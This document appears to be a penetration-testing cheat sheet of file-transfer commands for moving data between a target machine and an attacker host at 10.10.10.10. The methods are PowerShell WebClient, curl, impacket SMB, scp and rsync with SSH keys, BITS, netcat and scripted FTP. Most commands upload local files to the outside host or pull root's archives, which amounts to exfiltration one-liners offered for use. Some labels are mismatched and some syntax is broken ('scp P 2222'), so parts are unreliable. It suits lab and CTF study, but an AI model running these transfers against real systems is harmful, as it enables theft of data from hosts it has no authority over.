 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://10.10.10.10/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://10.10.10.10/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\10.10.10.10 /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\10.10.10.10\share\  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Web Content Upload**
    
    scp user@10.10.10.10:/tmp/demo.txt /tmp/

**Wildcard**

    scp -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**Custom Port**

    scp P 2222 -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**SSH Key**

    scp -i /home/user/.ssh/id_rsa -vr root@10.10.10.10: /tmp/demo/ 

**RSYNC-**

**Web Content Upload**
    
    rsync -av root@10.10.10.10:/root/* /tmp/demo/

**Custom Port**

    rsync -av --port 2222 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**SSH Key**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    type demo.txt | nc.exe -v 10.10.10.10 443
------------------------------------------------------------------------------------------------------------------
USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------

 
